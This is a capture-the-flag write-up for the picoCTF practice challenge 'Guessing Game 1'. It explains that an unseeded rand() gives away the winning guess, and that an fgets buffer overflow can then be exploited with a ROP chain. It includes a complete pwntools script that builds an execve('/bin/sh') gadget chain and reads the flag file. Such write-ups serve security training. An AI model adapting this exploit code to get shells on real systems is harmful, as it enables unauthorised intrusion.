 ```yaml
---
slug: guessing_game_1
title: Guessing Game 1
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Description:

I made a simple game to show off my programming skills. See if you can beat it!

<!--truncate-->

## The Challenge

Challenge can be found [here](https://play.picoctf.org/practice/challenge/90?page=1&search=guess)

## Analysis

Using ```checksec```, we find that the program has stack canary, partial relro, and NX enabled. The architecture is amd64 little endian.

## The Solve

Upon inspection of the source code, I saw that there is no call to ```srand()``` meaning that the value for ```rand()``` stays the same every time the program is run. We can extract the value using gdb and get ```0x53```. Incrementing this by 1 gives us the correct value ```84```. Entering this value to the program allows us to reach the ```win``` function.

```win``` contains a buffer overflow when it calls ```fgets```. I could not find the challenge flag within the executable so I used ropper to find ROP gadgets and obtain a shell.

Conditions for obtaining a shell with execve:

1. char \* filepath set to /bin/sh in rdi
2. char \* argv set to NULL in rsi
3. char \* envp set to NULL in rdx
4. value 0x3b for syscall in rax

After obtaining a shell, I was able to see that there was a flag file and ```cat``` it.

## Script

```python
"""
Toast's submission for picoGym challenge Guessing Game 1.

This script can be used in the following manner:
python3 ./solve.py <REMOTE/LOCAL>

Args:
    param1: LOCAL will operate locally on the user's machine.
            REMOTE will connect to the CTF webserver and grab the flag.
            If no parameter is specified, the program will default to LOCAL.

Returns:
    The flag to solve the challenge.
"""

from pwn import *

exe = ELF("./vuln")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    if args.get('REMOTE'):
        io = remote('jupiter.challenges.picoctf.org', 50581)
    elif args.get('GDB'):
        io = gdb.debug([exe.path])
    else:
        io = process([exe.path])

    return io


def main():
    flag = get_flag()
    log.success(flag)


def get_flag():
    '''Return the flag.
    '''
    with conn() as io:
        io.sendline(b"84")
        payload = b"A" * 120

        # 0x6ba0e0 Address of Data section
        # 0x400696 pop rdi; ret;
        payload += p64(0x400696) + p64(0x6ba0e0)

        # 0x410ca3 pop rsi; ret;
        payload += p64(0x410ca3) + b"/bin//sh"

        # 0x447d7b mov qword ptr [rdi], rsi; ret;
        payload += p64(0x447d7b)

        # 0x6ba0e8 address of DATA + 8
        # 0x410ca3 pop rsi; ret;
        payload += p64(0x410ca3) + p64(0x6ba0e8)

        # 0x6ba0e8 address of DATA + 8
        # 0x44cc26 pop rdx; ret;
        payload += p64(0x44cc26) + p64(0x6ba0e8)

        # 0x4163f4 pop rax; ret;
        payload += p64(0x4163f4) + p64(0x3b)

        # 0x40137c syscall;
        payload += p64(0x40137c)

        io.sendline(payload)

        io.recvuntil(b"\x06")
        io.recvuntil(b"@\n\n")
        io.sendline(b"cat flag.txt")
        flag = io.recvline()
        io.close()
        return flag.decode()


if __name__ == '__main__':
    main()
```
